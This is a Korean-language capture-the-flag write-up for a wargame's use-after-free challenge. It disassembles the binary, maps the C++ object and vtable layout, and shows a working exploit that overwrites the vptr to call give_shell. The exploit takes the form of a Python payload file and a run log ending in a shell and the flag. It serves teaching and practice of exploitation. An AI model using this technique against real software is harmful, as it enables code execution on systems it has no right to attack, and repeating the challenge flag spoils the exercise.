 * gdb로 uaf를 열어 main을 disas해 보면 이런 부분이 있음
~~~
0x0000000000400ef7 <+51>:    lea    -0x50(%rbp),%r12
0x0000000000400efb <+55>:    mov    $0x18,%edi
0x0000000000400f00 <+60>:    callq  0x400d90 <_Znwm@plt>
~~~

* 이곳을 ghidra로 분석해 보면 이런 것임
~~~
local_40 = (long *)operator.new(0x18);
~~~

* 즉 여기가 new 할때 필요로 하는 버퍼 크기라는 것을 알 수 있다

* 여기서 사용하는 c++ class instance는 virtual function이 있으니 vptr이 있을 것이고, 또한 uaf.cpp를 보면 int age, string name을 선언하고 있다. 그렇다면 이것들의 배치는 이런식이다

s   : vptr (8 byte pointer)
s+8 : int age
s+16: string name (8 byte pointer)

사실 난 s+8이 아니라 s+4에 int age가 있고 string class instance가 그냥 local variable로 있을거라고 생각했는데 실제로 gdb로 해당 부분을 살펴보면 저런 식이었다.

~~~
(gdb) x/10gx 0x130cc50
0x130cc50:      0x0000000000401570      0x0000000000000019
0x130cc60:      0x000000000130cc38      0x0000000000000031
~~~

vptr에 해당하는 부분을 열어보면 이렇게 생겼다

~~~
(gdb) x/10x 0x0000000000401570
0x401570 <_ZTV3Man+16>: 0x000000000040117a      0x00000000004012d2
0x401580 <_ZTV5Human>:  0x0000000000000000      0x00000000004015f0
0x401590 <_ZTV5Human+16>:       0x000000000040117a      0x0000000000401192
0x4015a0 <_ZTS5Woman>:  0x00006e616d6f5735      0x0000000000000000
0x4015b0 <_ZTI5Woman>:  0x0000000000602390      0x00000000004015a0
~~~
~~~
(gdb) disas 0x040117a
Dump of assembler code for function _ZN5Human10give_shellEv:
   0x000000000040117a <+0>:     push   %rbp
   0x000000000040117b <+1>:     mov    %rsp,%rbp
   0x000000000040117e <+4>:     sub    $0x10,%rsp
   0x0000000000401182 <+8>:     mov    %rdi,-0x8(%rbp)
   0x0000000000401186 <+12>:    mov    $0x4014a8,%edi
   0x000000000040118b <+17>:    callq  0x400cc0 <system@plt>
   0x0000000000401190 <+22>:    leaveq
   0x0000000000401191 <+23>:    retq
End of assembler dump.
(gdb) disas 0x4012d2
Dump of assembler code for function _ZN3Man9introduceEv:
   0x00000000004012d2 <+0>:     push   %rbp
   0x00000000004012d3 <+1>:     mov    %rsp,%rbp
   0x00000000004012d6 <+4>:     sub    $0x10,%rsp
   0x00000000004012da <+8>:     mov    %rdi,-0x8(%rbp)
   0x00000000004012de <+12>:    mov    -0x8(%rbp),%rax
   0x00000000004012e2 <+16>:    mov    %rax,%rdi
   0x00000000004012e5 <+19>:    callq  0x401192 <_ZN5Human9introduceEv>
   0x00000000004012ea <+24>:    mov    $0x4014cd,%esi
   0x00000000004012ef <+29>:    mov    $0x602260,%edi
   0x00000000004012f4 <+34>:    callq  0x400cf0 <_ZStlsISt11char_traitsIcEERSt13basic_ostreamIcT_ES5_PKc@plt>
   0x00000000004012f9 <+39>:    mov    $0x400d60,%esi
   0x00000000004012fe <+44>:    mov    %rax,%rdi
   0x0000000000401301 <+47>:    callq  0x400d50 <_ZNSolsEPFRSoS_E@plt>
   0x0000000000401306 <+52>:    leaveq
   0x0000000000401307 <+53>:    retq
End of assembler dump.
~~~

uaf.cpp에서 m->introduce() 하는 부분이 저 0x4012d2 일 것이다.
우리는 0x4012d2대신 0x040117a를 부르고 싶다

uaf.cpp에서 case1에서 m->introduce()를 부르는 곳을 disas해보면 이런식이다

~~~
=> 0x0000000000400fcd <+265>:   mov    -0x38(%rbp),%rax
   0x0000000000400fd1 <+269>:   mov    (%rax),%rax
   0x0000000000400fd4 <+272>:   add    $0x8,%rax
   0x0000000000400fd8 <+276>:   mov    (%rax),%rdx
   0x0000000000400fdb <+279>:   mov    -0x38(%rbp),%rax
   0x0000000000400fdf <+283>:   mov    %rax,%rdi
   0x0000000000400fe2 <+286>:   callq  *%rdx
~~~

여기에서 `add $0x8,%rax -> mov (%rax),%rdx -> callq  *%rdx` 하는게 실행의 수순이다

m,w는 0x18씩 두번 allocate했으니까

우리는 일단 저걸 free로 free해주고
0x18씩 두번 allocate, 그리고 vtable부분에 0x401570 대신 0x401570-0x8을 넣어두고, 그럼 add 0x8한게 0x401570이 될 것이고, 이걸 dereference하면 나오는게 0x40117a가 될 것이다

~~~
# uafinput 용 input 만들기
>>> oF = open('uafinput','wb')
>>> oF.write("\x68\x15\x40\x00\x00\x00\x00\x00"*3)
>>> oF.close()
>>> exit()
~~~

~~~
실행
uaf@pwnable:~$ ./uaf 24 /tmp/uafinput
1. use
2. after
3. free
3  //일단 둘다 free
1. use
2. after
3. free
2  //한번 allocate
your data is allocated
1. use
2. after
3. free
2  //또한번 allocate
your data is allocated
1. use
2. after
3. free
1  //m->introduce() 부르기. shell 실행 됨
$ cat flag
yay_f1ag_aft3r_pwning
$
~~~

ㅋ
